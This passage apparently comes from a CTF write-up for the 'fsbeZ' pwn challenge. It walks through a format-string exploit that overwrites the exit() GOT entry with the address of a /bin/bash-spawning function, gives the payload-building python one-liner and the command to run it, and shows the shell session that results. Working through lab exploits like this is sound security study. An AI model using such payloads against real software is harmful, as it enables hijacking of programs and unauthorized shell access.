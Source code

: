 ```
        0804c02c 24 d0 04 08     addr       <EXTERNAL>::setvbuf                              = ??
```

Now we have the neccessary addresses
- Address of shell ("/bin/bash") =  080491fa
- Address of exit() GOT = 0804c028
- Offset of string on stack = 7

Now the payload creation:

I’ll write 080491fa ("/bin/bash") to overwrite the value of exit() 0804c028 

Here's the resource which helped me [Resouce](https://axcheron.github.io/exploit-101-format-strings/)

Solve script available here [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/sabr/pwn/fsbez.py)

```                                         
┌──(venv)─(mark㉿haxor)-[~/…/CTF/Sabr/pwn/fsbeZ]
└─$ python -c 'print "\x2a\xc0\x04\x08\x28\xc0\x04\x08%2044x%7$hn%35318x%8$hn"' > payload
                                         
┌──(venv)─(mark㉿haxor)-[~/…/CTF/Sabr/pwn/fsbeZ]
└─$ cat payload    
*(%2044x%7$hn%35318x%8$hn
```

Now to run it we can't do something like `./fsbeZ < payload` it won't work 

So instead lets run it this way 
```
(cat payload; cat) | ./fsbeZ
```

Now on running the payload on the binary it gives us a bash shell xD

```                                          
┌──(venv)─(mark㉿haxor)-[~/…/CTF/Sabr/pwn/fsbeZ]
└─$ (cat payload; cat) | ./fsbeZ          
 ▄▄█████████ ▄▄█████████ ▄█████████▄ ▄▄█████████ ▄██████████
 ████▀▀▀▀▀▀▀ ████▀▀▀▀▀▀▀ ████▀▀▀████ ████▀▀▀▀▀▀▀ ▀▀▀▀▀▀█████
 ████▄▄▄     ████▄▄▄▄▄▄  ████▄▄▄███▀ ████▄▄▄         ▄████▀▀
 ████▀▀▀     ▀▀▀▀▀▀▀████ ████▀▀▀███▄ ████▀▀▀       ▄████▀▀  
 ████        ▄▄▄▄▄▄▄████ ████▄▄▄████ ████▄▄▄▄▄▄▄ ▄█████▄▄▄▄▄
 ████        ██████████▀ ██████████▀ ▀██████████ ███████████
 ▀▀▀▀        ▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀▀

fsb: *(                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                  f7e1d620
ls
exploit.py  fsbeZ  libc.so.6  payload
id
uid=1000(mark) gid=1000(mark) groups=1000(mark),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),121(bluetooth),137(scanner),142(kaboxer)
ls -al
total 2264
drwxr-xr-x 2 mark mark    4096 Jan 16 22:08 .
drwxr-xr-x 8 mark mark    4096 Jan 14 13:14 ..
-rw-r--r-- 1 mark mark     395 Jan 15 04:20 exploit.py
-rwxr-xr-x 1 mark mark   13708 Jan 10 14:30 fsbeZ
-rw-r--r-- 1 mark mark 2280756 Jan 10 14:26 libc.so.6
-rw-r--r-- 1 mark mark      32 Jan 16 22:08 payload
-rw-r--r-- 1 mark mark    1024 Jan 15 00:38 .testexploit.py.swp
```                                                       